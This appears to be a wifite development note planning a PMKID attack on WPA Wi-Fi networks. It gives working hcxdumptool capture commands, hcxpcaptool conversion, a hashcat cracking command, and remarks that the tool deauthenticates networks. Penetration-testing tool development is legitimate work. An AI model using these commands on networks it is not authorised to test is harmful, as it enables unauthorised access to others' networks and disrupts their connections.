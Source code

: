 ### PMKID Attack

See https://hashcat.net/forum/thread-7717.html

### Steps

1. Start `hcxdumptool` (daemon)
   * `sudo hcxdumptool -i wlan1mon -o pmkid.pcapng -t 10 --enable_status=1`
   * Should also use `-c <channel>`, `--filterlist` and `--filtermode` to target a specific client
   * Could be a new attack type: `wifite.attack.pmkid`
2. Detect when PMKID is found.
   * `hcxpcaptool -z pmkid.22000 pmkid.pcapng`
   * Single-line in pmkid.22000 will have PMKID, MACAP, MACStation, ESSID (in hex).
3. Save `.22000` file (to `./hs/`? or `./pmkids/`?)
   * New result type: `pmkid_result`
   * Add entry to `cracked.txt`
4. Run crack attack using hashcat:
   * `./hashcat64.bin --force -m 22000 -a0 -w2 path/to/pmkid.22000 path/to/wordlist.txt`

### Problems

* Requires latest hashcat to be installed. This might be in a different directory.
   * Use can specify path to hashcat? Yeck...
   * % hashcat -h | grep 22000
   * 22000 | WPA-PMKID-PBKDF2
* If target can't be attacked... we need to detect this failure mode.
   * Might need to scrape `hcxdumptool`'s output
   * Look at `pmkids()` func in .bashrc
   * hcxpcaptool -z OUTPUT.22000 INPUT.pcapng > /dev/null
   * Check OUTPUT.22000 for the ESSID.
* Wireless adapter support is minimal, apparently.
* hcxdumptool also deauths networks and captures handshakes... maybe unnecessarily

